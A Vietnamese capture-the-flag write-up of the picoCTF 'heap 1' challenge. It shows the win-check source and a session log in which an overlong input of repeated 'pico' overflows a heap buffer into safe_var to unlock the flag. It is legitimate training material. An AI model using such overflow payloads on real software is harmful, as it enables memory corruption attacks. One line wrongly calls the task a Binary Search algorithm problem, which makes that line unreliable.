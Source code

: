 # heap 1
##### Tags: `Binary Exploitation`
### DESCRIPTION
Can you control your overflow? Download the binary [here](https://artifacts.picoctf.net/c_tethys/35/chall). Download the [source](https://artifacts.picoctf.net/c_tethys/35/chall.c) here.
Additional details will be available after launching your challenge instance.
##### Một bài về thuật toán tìm kiếm Binary Search.
> Về cơ bản, lỗi giống heap 0, khi chèn data lớn quá thì sẽ bị 'đẩy' sang bên `safe_var`
##### Kiểm tra file `chall.c`, sẽ thấy để thắng thì `safe_var` phải là 'pico'.
```C
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
                   
```
##### Như vậy, ta vẫn sẽ sử dụng một string dài tuy nhiên độ dài vừa đủ để phần tràn vào `safe_var` là pico:
```
Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x558909aef6b0  ->   pico
+-------------+----------------+
[*]   0x558909aef6d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: picopicopicopicopicopicopicopicopico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = pico


1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 
```
##### Chọn 4 để in flag.
##### => Lấy flag thành công!

